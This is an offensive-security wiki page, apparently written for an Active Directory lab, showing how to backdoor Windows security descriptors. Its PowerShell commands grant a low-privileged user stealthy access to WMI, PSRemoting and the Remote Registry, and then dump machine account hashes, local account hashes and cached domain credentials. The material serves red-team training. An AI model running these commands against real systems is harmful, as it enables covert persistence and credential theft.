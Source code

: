 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Security Descriptors

Red teamers can exploit Windows security descriptors (SDs) to establish **stealthy, privilege-independent access to remote management interfaces** such as WMI, PSRemoting, and the Remote Registry. These descriptors control who can access and interact with system objects, including remote services. By **modifying the Discretionary Access Control List (DACL)** of these interfaces using a privileged account, it's possible to **grant access to a low-privileged or compromised user without altering group memberships or raising alarms**.

Windows represents these permissions using the Security Descriptor Definition Language (SDDL), which structures access control entries (ACEs) in the following format:

```
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```

For offensive purposes, the key component is the `account_sid` — replacing or appending a compromised user’s SID into the descriptor grants that user access. This technique allows backdoor persistence that bypasses typical group membership detection.

## **WMI**

When a user authenticates to a system via WMI, two components enforce permissions: the DCOM security descriptor (viewable in Component Services) and the WMI namespace descriptor (modifiable via WMI Control under Services and Applications). Both must be adjusted for successful access. These can be modified remotely using the [RACE toolkit](https://github.com/samratashok/RACE):

{% code overflow="wrap" %}
```powershell
# On local machine
Set-RemoteWMI -SamAccountName student337 -Verbose

# On remote machine without explicit credentials
Set-RemoteWMI -SamAccountName dcorp\student337 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose

# On remote machine with explicit credentials
Set-RemoteWMI -SamAccountName dcorp\student337 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose
```
{% endcode %}

This modifies both the WMI namespace and DCOM ACLs to include the SID of `student337`, granting them WMI query and execution rights. This user can then run WMI queries without having administrative rights:

```powershell
# Access the target via WMI
Get-WmiObject -Class Win32_OperatingSystem -ComputerName dcorp-dc
```

The permissions can be cleaned up:

{% code overflow="wrap" %}
```powershell
# Remove permissions on remote machine
Set-RemoteWMI -SamAccountName dcorp\student337 -ComputerName dcorp-dc -namespace 'root\cimv2' -Remove -Verbose
```
{% endcode %}

## **PSRemoting**

{% hint style="danger" %}
This method is not stable post-August 2020 → **sometimes it crashes the WinRM service**!
{% endhint %}

PowerShell Remoting, backed by WinRM, is secured through session configurations — specifically the `microsoft.powershell` configuration accessed via `Get-PSSessionConfiguration`. Access is controlled by its security descriptor. Like WMI, this can be altered to include a low-privileged user.

The ACL of `microsoft.powershell` can be read on the UI as follows:

```powershell
Set-PSSessionConfiguration -Name microsoft.powershell -ShowSecurityDescriptorUI
```

Running `Set-RemotePSRemoting` with the target username and computer name modifies the underlying ACL, giving the user WinRM access. Even if the command returns an error due to transport issues, the change is typically still applied:

{% code overflow="wrap" %}
```powershell
# On local machine
Set-RemotePSRemoting -SamAccountName student337 -Verbose

# On remote machine without credentials (the error is expected, it just means that the remote machine did not terminate the connection gracefully)
> Set-RemotePSRemoting -SamAccountName dcorp\student337 -ComputerName dcorp-dc -Verbose
[dcorp-dc] Processing data from remote server dcorp-dc failed with the following error message: The I/O operation has been aborted because of either a thread exit or an application request. For more information, see the about_Remote_Troubleshooting Help topic.
    + CategoryInfo          : OpenError: (dcorp-dc:String) [], PSRemotingTransportException
    + FullyQualifiedErrorId : WinRMOperationAborted,PSSessionStateBroken

# Remopve the permissions from the remote machine
Set-RemotePSRemoting -SamAccountName dcorp\student337 -cn dcorp-dc -Remove
```
{% endcode %}

Once the descriptor includes the user’s SID, they can open an interactive session without being a member of the `Remote Management Users` group:

```powershell
Enter-PSSession dcorp-dc
```

## **Remote Registry**

Remote Registry is a Windows service that enables **remote access to the registry over the network via RPC**. When running, it allows reading and writing to critical hives like SAM and SECURITY without shell access.&#x20;

By modifying registry ACLs to include a user’s SID—using tools like RACE or [DAMP](https://github.com/HarmJ0y/DAMP/tree/master)—non-admin users can gain access to sensitive data such as local hashes, cached credentials, or the machine account hash. This provides a **stealthy method for credential extraction and persistence**. Though often **disabled by default**, it may be active in enterprise environments for legacy management. Unlike WinRM or WMI, it **offers no code execution but enables silent post-exploitation**.

```powershell
# Assign remote registry access to the target user
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student337 -Verbose

# Retrieve machine account hash (and continue with a ST attack!)
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose

# Retrieve local account hash
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose

# Retrieve domain cached credentials
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```
